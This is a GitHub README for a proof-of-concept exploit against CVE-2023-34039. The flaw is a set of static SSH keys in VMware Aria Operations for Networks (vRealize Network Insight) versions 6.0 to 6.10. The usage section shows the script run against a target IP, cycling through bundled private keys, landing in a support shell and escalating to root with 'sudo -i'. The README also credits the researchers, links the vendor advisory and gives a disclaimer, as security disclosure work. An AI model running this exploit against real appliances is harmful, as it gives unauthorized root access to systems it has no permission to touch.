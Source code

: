 # CVE-2023-34039
POC for CVE-2023-34039 VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE

## Technical Analysis
A root cause analysis of the vulnerability can be found on my blog:

https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-34039/

![poc](poc.gif)


## Summary
VMWare Aria Operations for Networks (vRealize Network Insight) from version 6.0 to 6.10 did not regenerate the ssh keys for the `support` and `ubuntu` users, allowing an attacker with SSH access to gain `root` shell access to this product.

This issue was reported to VMWare by <a style="text-decoration: none" href="https://twitter.com/rootxharsh" target="_blank">Harsh Jaiswal (@rootxharsh)</a>
and <a style="text-decoration: none" href="https://twitter.com/iamnoooob" target="_blank">Rahul Maini (@iamnoooob)</a> at <a style="text-decoration: none" href="https://twitter.com/pdiscoveryio" target="_blank">ProjectDiscovery Research</a>

I just wrote the exploit, if you can call it that, cause it's basically a ssh command wrapper.

## Usage
```plaintext
python CVE-2023-34039.py --target 192.168.1.16
(!) VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE (CVE-2023-34039)

(*) Exploit by Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_collector

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_platform

(*) Trying key: keys/vrni-6.10.0/id_rsa_vnera_keypair_6.10.0_platform


********************************** ATTENTION **********************************
 NTP Service is not healthy.
 IMPACT: It may affect the proper working of other services.
 ACTION: Restore the service using 'ntp' CLI command.
********************************** ATTENTION **********************************
support@vrni-platform-release:~$ sudo -i
root@vrni-platform-release:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vrni-platform-release:~# hostname
vrni-platform-release
root@vrni-platform-release:~# 

```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Progress Advisory
* https://www.vmware.com/security/advisories/VMSA-2023-0018.html

## Follow Us on for the more security research:
*  [SinSinology](https://twitter.com/SinSinology)
*  [SummoningTeam](https://twitter.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.


